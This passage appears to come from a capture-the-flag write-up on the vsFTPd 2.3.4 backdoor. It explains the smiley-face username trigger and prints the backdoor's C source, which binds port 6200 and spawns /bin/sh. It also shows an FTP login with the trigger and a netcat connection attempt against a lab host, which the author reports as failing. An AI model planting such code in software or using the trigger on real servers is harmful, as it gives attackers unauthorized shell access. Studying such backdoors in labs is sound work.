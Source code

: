 What is this code doing? Well, its looking through the username string, looking for two characters: `0x3a` and `0x29`, which represent `:` and `)` respectively. That is to say, it's looking for a smiley face `:)` in the username!

If it finds a smiley face, it calls `vsf_sysutil_extra()`:

```c
int
vsf_sysutil_extra(void)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  exit(1);
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200);
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa,
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  {
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0);
  }
}
```

It opens a TCP socket on port `6200` and spawns a `/bin/sh` shell for incoming connections :)

This looks like something we can easily exploit:

```
$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): hello:)world
331 Please specify the password.
Password:
ftp: Login failed
ftp> quit
```

Now we try to connect to port 6200:

```
nc 10.10.10.3 6200
```

And we get... nothing! Unfortunately this exploit does not seem to work on this box. After attempting several times I am unable to get a shell to appear in netcat.

### Metasploit to the rescue??
